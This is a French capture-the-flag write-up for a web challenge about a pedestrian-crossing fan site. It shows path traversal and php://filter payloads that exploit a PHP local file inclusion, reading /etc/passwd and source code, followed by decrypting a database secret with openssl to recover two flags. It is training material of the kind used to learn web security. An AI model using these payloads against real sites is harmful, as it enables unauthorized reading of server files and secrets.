

# Web : Passage piéton
**Challenge Author(s)**: SevenInside
**Difficulty**: Moyen puis facile

## Synopsis

Ce site de fans de passages piétons semble cacher des secrets.

## Steps to solve

Le site expose des pages au travers d'un paramètre GET (par exemple`?page=galerie`). On remarque en changeant le paramètre qu'il s'agit d'une inclusion PHP, qui est vulnerable à une LFI. En effet sur l'URL `/index.php?page=../../../../etc/passwd` on observe l'erreur suivante :

```bash
Warning: include(../../../../etc/passwd.php): Failed to open stream: No such file or directory in
/var/www/html/index.php on line 84
Warning: include(): Failed opening '../../../../etc/passwd.php' for inclusion (include_path='.:/usr/local/lib/php') in
/var/www/html/index.php on line 84
```

On est sur une inclusion de fichier locale (LFI) typique d’un CTF, avec un `include($page.'.php')`, donc la chaîne .php est
toujours suffixée. On peut cependant lire `index.php` avec un wrapper PHP comme: `/index.php?page=php://filter/convert.base64-encode/resource=index`, puis en décodant avec un `base64 -d`.

La page qui semble nous intéresser est `galerie.php`. En effet, cette page semble contenir une liste d'entrées qui pourraient être configurées par une base de données. On va donc à l'adresse `/index.php?page=php://filter/convert.base64-encode/resource=galerie`.



Une fois décodé, on obtient le code suivant :

```php
<?php
// hit{PremierPassageTraversé!}
$db = new SQLite3('bdd-passages/troadeg-bZh.sqlite');
$images = [];
$results = $db->query('SELECT filename, description FROM passages');
while ($row = $results->fetchArray()) {
$images[$row['filename']] = $row['description'];
}
echo "<h3>Galerie - Les plus beaux passages piétons</h3>";
echo "<div class='gallery'>";
foreach ($images as $image => $description) {
echo "<div class='gallery-item'>";
echo "";
echo "<p>$description</p>";
echo "</div>";
}
echo "</div>";
?>
```
 
On obtient ainsi le premier flag : `hit{PremierPassageTraversé!}`

--------

On peut récupérer directement depuis le navigateur la base de données SQLite `bdd-passages/troadeg-bZh.sqlite`. En l'ouvrant avec le client SQLite, on trouve les valeurs suivantes :

```bash
admin@HIT2025:~/bdd-passages$ sqlite3 troadeg-bZh.sqlite
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> .tables
SECRET_TABLE  passages
sqlite> select * from SECRET_TABLE;
aes-256-cbc-pbkdf2|HGEpbfYHAhL3owqsT1lsTBUqO6|U2FsdGVkX1+2XA4zEtBoatZtxkF4QsDz2nRM0bgZnTY6zGJBb0GahGHmGwMNAmmq
```

Il semblerait que la base de données stocke une donnée chiffrée avec l'algorithme `AES-256-CBC-PBKDF2`. On en déduit que les entrées suivantes correspondent à un texte chiffré, une clé et un algorithme de chiffrement symétrique.

Après quelques recherches, la commande `openssl aes-256-cbc -d -a -pbkdf2 -in encrypted_data` permet de déchiffrer les données.

```bash
$ echo 'U2FsdGVkX1+2XA4zEtBoatZtxkF4QsDz2nRM0bgZnTY6zGJBb0GahGHmGwMNAmmq' > encrypted_data
admin@HIT2025:~/bdd-passages$ openssl aes-256-cbc -d -a -pbkdf2 -in encrypted_data
enter AES-256-CBC decryption password: HGEpbfYHAhL3owqsT1lsTBUqO6
hit{LFI/AES/FTW}
```

On récupère ainsi le second flag : `hit{LFI/AES/FTW}`